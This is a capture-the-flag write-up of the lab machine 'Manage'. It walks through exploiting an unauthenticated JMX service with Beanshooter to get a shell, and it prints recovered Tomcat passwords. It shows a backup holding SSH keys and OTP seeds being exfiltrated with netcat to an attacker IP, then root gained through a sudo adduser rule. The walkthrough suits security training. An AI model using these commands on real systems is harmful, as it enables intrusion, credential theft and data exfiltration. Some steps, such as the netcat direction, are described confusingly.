


# Vulnlab - Manage Writeup


Hello guys, in this walkthrough I’ll be covering the attack path and key findings for the retired Hack The Box machine **Manage**. This box was a nice mix of Java services, credential recovery, and Linux privilege escalation, so I’ll go step by step from initial enumeration all the way to root.

The target exposed an Apache Tomcat web application alongside a Java RMI service. From there, I used JMX access to gain an initial shell as the `tomcat` user. After that, I uncovered a backup archive that contained SSH material and one-time codes, which let me pivot into the `useradmin` account. Finally, a sudo misconfiguration allowed me to create a new privileged user and escalate to root.

## Recon

I started with a basic Nmap scan to identify open ports and services on the target.

```bash
nmap -sC -sV -vv Target-IP
```

The scan returned the following results:

```text
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
2222/tcp open  java-rmi syn-ack ttl 63 Java RMI
8080/tcp open  http     syn-ack ttl 63 Apache Tomcat 10.1.19
```

The two services that immediately stood out were the Tomcat instance on port `8080` and the Java RMI service on port `2222`. I opened the web application first and confirmed that Tomcat was running properly:



but the Manager dashboard was disabled and returned a `403 Forbidden`.



At this point, the only obvious clue was the Tomcat version: **10.1.19**. Since the web interface was not giving me much, I start fuzzing the endpoint but that also dont give me anything so I shifted focus to the RMI service and looked for a way to inspect or interact with the exposed JMX endpoint.

### JMX Enumeration

Because the RMI service exposed `jmxrmi`, I decided to test it with Beanshooter. This is a useful tool for enumerating JMX services and checking whether authentication is enforced.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum Target-IP 2222
```

The output showed that the endpoint was accessible without authentication:

```text
[+] Checking available bound names:
[+]
[+]  * jmxrmi (JMX endpoint: 127.0.1.1:41485)
[+]
[+] Checking for unauthorized access:
[+]
[+]  - Remote MBean server does not require authentication.
[+]    Vulnerability Status: Vulnerable
```

That was a major finding. Not only was the JMX server open, but it also did not require authentication. Beanshooter also listed a large number of MBeans and, importantly, revealed credentials for Tomcat-related users.

```text
Username: manager
Password: fhErvo2r9wuTEYiYgt

Username: admin
Password: onyRPCkaG4iX72BrRtKgbszd
```

The enumeration confirmed that the JMX service was not just exposed, but also useful for deeper interaction with the target. Since Beanshooter supports JMX exploitation through Tonka, I moved on to obtaining a shell.

## Initial Access

To gain a foothold, I used Beanshooter’s Tonka functionality to spawn a shell through the JMX service.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell Target-IP 2222
```

That gave me command execution on the target as the `tomcat` user.

Once inside, I checked the user’s files and looked for anything interesting. The goal here was to find credentials, keys, backups, or any other artifact that might help me move laterally.

I found that the home directories on the system included both `karl` and `useradmin`:

```bash
ls /home
```

The `karl` directory did not contain anything immediately useful, so I moved on to `useradmin`.

### Credentials Discovery

Inside `/home/useradmin`, I found several interesting files, including a `.google_authenticator` file and a `backups` directory.

```bash
ls -la /home/useradmin
```

```text
total 36
drwxr-xr-x 5 useradmin useradmin 4096 Jun 26  2025 .
drwxr-xr-x 4 root      root      4096 Jun 21  2024 ..
drwxrwxr-x 2 useradmin useradmin 4096 Jun 21  2024 backups
lrwxrwxrwx 1 useradmin useradmin    9 Jun 21  2024 .bash_history -> /dev/null
-rw-r--r-- 1 useradmin useradmin  220 Jun 21  2024 .bash_logout
-rw-r--r-- 1 useradmin useradmin 3771 Jun 21  2024 .bashrc
drwx------ 2 useradmin useradmin 4096 Jun 21  2024 .cache
-r-------- 1 useradmin useradmin  200 Jun 21  2024 .google_authenticator
-rw-r--r-- 1 useradmin useradmin  807 Jun 21  2024 .profile
drwxrwxr-x 2 useradmin useradmin 4096 Jun 21  2024 .ssh
```

The `.google_authenticator` file suggested that `useradmin` was protected by OTP-based authentication. The backup directory looked even more promising, since backups often contain keys or configuration files that can be reused.

I found a tar archive in the backups directory and transferred it to my own machine using netcat.

```bash
nc -lvp 444 > backup.tar.gz
```

From my machine, I sent the archive over:

```bash
nc <YOUR_IP> 444 < backup.tar.gz
```

After extracting the archive, I found a very useful set of files:

```bash
tar -xvzf backup.tar.gz
```

```text
./
./.bash_logout
./.profile
./.ssh/
./.ssh/id_ed25519
./.ssh/authorized_keys
./.ssh/id_ed25519.pub
./.bashrc
./.google_authenticator
./.cache/
./.cache/motd.legal-displayed
./.bash_history
```

That archive contained an SSH private key along with the `.google_authenticator` file, which meant I now had enough information to try logging in as `useradmin`.

### Pivot to useradmin

I used the recovered SSH key to connect to the target as `useradmin`.

```bash
ssh useradmin@10.129.234.57 -i .ssh/id_ed25519
```

During login, SSH asked for a verification code. Since I had the `.google_authenticator` file from the backup, I was able to use one of those one-time codes and complete the login successfully.

Once authenticated, I had a shell as `useradmin` on the target.

```text
useradmin@manage:~$
```

## Privilege Escalation

The next step was to inspect `useradmin`’s sudo permissions.

```bash
sudo -l
```

The output showed a very specific rule:

```text
User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```

This meant I could run `adduser` through sudo, but only with a username matching a very restrictive pattern. Even so, that was enough to create a new account and work toward root access.

I also checked `/etc/passwd` to better understand the available users on the system.

```bash
cat /etc/passwd
```

After that check the Groups via : 
```bash 
cat /etc/group 
```

Something interesting to note - there is no admin group!

I saw that `useradmin` was a normal user, while `root` was of course present as expected. Since I could create new users with sudo, I decided to create one called `admin` I’m able to create a user with any name I want. When I do, a group with the same name will be created and the new user will be in that group. 

```bash
sudo adduser admin
```

The account was created successfully, and I set a password during the prompt sequence.

By default, the admin group has extensive sudo privs on Ubuntu. I can’t see /etc/sudoers on Manage to verify that’s the case here.

To verify that the user existed, I ran the command again:

```bash
sudo adduser admin
```

It returned:

```text
adduser: The user `admin` already exists.
```

That confirmed the account creation worked. I then switched to the new user:

```bash
su admin
```

After entering the password, I was logged in as `admin`.

From there, I checked whether the new account could use sudo.

```bash
sudo su
```

Since `admin` had a password and was allowed to use sudo normally, this gave me a root shell.

```text
root@manage:~#
```

I then listed the root directory and read the flag.

```bash
ls
cat root.txt
```

## Attack Path

- **Scan the target** - with Nmap and identify SSH, Java RMI, and Tomcat.
- **Enumerate the Tomcat web app** - and confirm the Manager dashboard is disabled.
- **Inspect the exposed Java RMI service** - and discover an unauthenticated JMX endpoint.
- **Use Beanshooter** - to enumerate MBeans and recover Tomcat user credentials.
- **Trigger a JMX shell** - and gain access as the `tomcat` user.
- **Explore `/home/useradmin`** - and locate backup files and Google Authenticator data.
- **Download the backup archive** - and extract SSH keys and OTP information.
- **Log in as `useradmin`** - using the recovered key and verification code.
- **Abuse sudo permissions** - to create a new privileged user.
- **Switch to the new account** - and use sudo to become root.
